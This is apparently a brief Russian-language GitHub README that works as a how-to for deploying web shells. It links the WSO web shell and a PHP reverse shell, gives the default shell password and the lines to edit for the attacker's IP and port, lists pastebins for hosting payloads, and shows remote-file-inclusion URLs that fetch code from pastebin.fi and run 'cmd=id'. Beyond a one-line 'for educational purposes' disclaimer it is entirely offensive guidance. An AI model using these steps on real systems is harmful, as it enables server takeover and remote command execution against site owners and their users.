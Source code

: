 # web_shells
For educational purposes only!

wso shell repo - https://github.com/mIcHyAmRaNe/wso-webshell
Пароль по умолчанию - ghost287 (поменять пароль можно в строке 7 указав md5 хеш нового пароля)

rev-shell repo - https://github.com/pentestmonkey/php-reverse-shell/tree/master
Не забудьте указать новый IP и PORT на строке 49 и 50

Список сервисов для публикации кода https://github.com/lorien/awesome-pastebins
Проверенные бесплатные сервисы:
- http://vpaste.net/
- https://bpa.st/
- https://pastebin.mozilla.org/
- https://paste.debian.net/
- https://pastebin.fi/

После размещения ищем кнопку RAW и получаем ссылку на текст файла, который уже можно использовать для RFI\RCE
P.S. При работе с RFI не забывайте, что вы передаёте ссылку как параметр, и если внутри вашего кода тоже есть обработчик параметра, то его нужно передавать не через ?, а через &

BAD - http://127.0.0.1/test.php?page=https://pastebin.fi/r/lolkek?cmd=id 
GOOD - http://127.0.0.1/test.php?page=https://pastebin.fi/r/lolkek&cmd=id 
